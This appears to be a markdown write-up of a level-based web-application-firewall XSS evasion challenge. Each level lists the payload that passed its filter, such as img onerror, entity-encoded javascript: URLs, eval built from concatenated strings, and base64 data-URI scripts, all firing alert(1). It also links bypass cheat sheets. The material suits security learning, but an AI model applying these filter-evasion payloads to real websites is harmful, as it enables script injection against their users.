 # Web App Firewall (WAF) Filter evasion

**Level 0 No filter**
`<script>alert(1)</script>`  simple as no checks

**Level 1-3 script filter**
`<img src="dfsdf" onerror="alert(1)" />` smuggle js via image


Works for all


**Level 4 Link (WAF filter: /"/)**
Entered code ends up in a link: `javascript:alert(1)`

**Level 5+6 Link  (/"|javascript/i )**
`j&#97v&#97script&#x3A;&#97lert(1)`

Works for 5 + 6
Something like this using lax browser parsing didnt work: "j a va script...")

**Level 7 Code (/alert/i )**

```
'1';
var b = 'aler';
var c = 't(1)';
eval(b+c);
```

**Level 8 Code**
```
1;</script><script src="data:text/javascript;base64,amF2YXNjcmlwdDphbGVydCgxKQ=="></script>
```

or just  (without javascript)
```
1;</script><script src="data:text;base64,amF2YXNjcmlwdDphbGVydCgxKQ=="></script>
```

**Level 9**
`<a href="javascri&#112t:alert(1)" >hello</a>`  

(generates a link to be clicked, maybe not what was meant)

**Level 10**
no succes :-(

## Notes
https://www.volkis.com.au/blog/bypass-xss-in-wafs/ 
https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/

https://www.w3.org/MarkUp/html-spec/html-spec_13.html